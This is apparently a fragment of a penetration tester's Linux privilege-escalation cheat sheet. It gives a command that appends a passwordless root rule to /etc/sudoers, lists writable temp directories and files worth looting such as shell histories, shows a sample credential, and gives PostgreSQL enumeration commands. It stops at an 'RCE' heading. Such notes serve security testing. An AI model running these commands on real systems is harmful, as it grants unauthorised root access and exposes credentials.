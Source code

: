 Write to suders

```jsx
echo "<username> ALL=(root) NOPASSWD: ALL" >> /etc/sudoers #fill out username
```

### Writable Path

```jsx
/tmp/
/dev/shm/
/var/tmp/
```

### Environment variables

```jsx
AppKey:passw0rd!
```

add path to PATH

```jsx
export PATH=$PATH:/opt/aerospike/bin/asadm
```

### Interesting file

```jsx
history
.bash_history
.bash_aliases
/var/www/html/
/home
/var/lib
/var/db
/opt
/tmp
/etc/exports
```

### PostgreSQL

Basic commands

```jsx

psql --host=127.0.0.1 -U postgres
\list # List databases
\c <database> # use the database
\d # List tables
\du+ # Get users roles
# SELECT current_setting('is_superuser');
```

RCE
